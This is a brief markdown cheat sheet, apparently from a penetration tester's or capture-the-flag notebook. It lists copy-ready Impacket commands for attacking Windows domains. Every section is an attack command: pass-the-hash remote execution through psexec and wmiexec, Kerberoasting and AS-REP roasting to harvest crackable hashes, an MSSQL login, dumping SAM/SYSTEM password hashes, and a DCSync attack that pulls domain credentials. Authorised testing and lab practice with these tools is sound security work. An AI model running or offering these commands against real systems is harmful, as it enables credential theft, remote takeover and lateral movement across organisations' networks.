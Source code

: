 
# IMPACKET-COLLECTION


### PSEXEC
```
impacket-psexec -hashes 00000000000000000000000000000000:2a944a58d4ffa77137b2c587e6ed7626 user@10.10.10.20
```
### Kerberos

```
impacket-GetUserSPNs corp.com/user:'Passw0rd' -dc-ip 10.10.10.20 -outputfile user.kerb￼￼
```
### AS-REP Roast

```￼￼
impacket-GetNPUsers corp.com/user:'Passw0rd' -dc-ip 10.10.10.20 -outputfile user.hash
```
### MSSQL
```￼
impacket-mssqlclient sequel.htb/rose:Passw0rd@10.10.10.20 -windows-auth
```
### SAM&SYSTEM DUMP

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
### DCsync ATTACK
```
impacket-secretsdump -just-dc-user username corp.com/jefeadmin:"Passw0rd"@10.10.10.20
```
### WMIEXEC 
```
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc admin@10.10.10.20
```

